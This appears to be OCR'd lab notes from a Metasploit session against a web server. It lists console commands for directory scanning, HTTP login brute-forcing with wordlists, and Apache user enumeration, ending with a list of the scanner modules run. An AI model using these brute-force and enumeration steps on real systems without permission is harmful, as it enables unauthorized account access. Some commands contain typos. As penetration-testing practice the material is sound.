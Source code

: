 msf6:`search files_Dir`

msf6:`use 1`

msf6:`show options`

msf6:`run`

msf6:`search hhtp_login`

msf6:`use auxiliary/scanner/http/http_login`

msf6:`show options`

msf6:`set AUTH_URI /secure/`

msf6:`unset USERPASS_FILE`: Because we have a userfile and passfile specified

msf6:`run`

Failed brute-force. We change the user and pass files to a "stronger" file:

msf6:`set user_file /usr/share/metasploit-framework/data/wordlists/namelist.txt`

msf6:`set pass_file /usr/share/metasploit-framework/daata/wordlists/unix_passwords.txt`

msf6:`set verbose false`

msf6:`run`

Still no credentials.

msf6:`search apache_userdir_enum`

msf6:`use auxiliary/scanner/http/apache_userdir_enum`

msf6:`show options`

msf6:`set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`

msf6:`run`

msf6:`search http_login`

msf6:`use auxiliary/scanner/http/http_login`

msf6:`echo "rooty" > user.txt`

msf6:`set user_file /root/user.txt `

msf6:`run`

We ran followed auxiliary modules;


    auxiliary/scanner/http/apache_userdir_enum
    auxiliary/scanner/http/brute_dirs
    auxiliary/scanner/http/dir_scanner
    auxiliary/scanner/http/dir_listing
    auxiliary/scanner/http/http_put
    auxiliary/scanner/http/files_dir
    auxiliary/scanner/http/http_login
    auxiliary/scanner/http/http_header
    auxiliary/scanner/http/http_version
    auxiliary/scanner/http/robots_txt
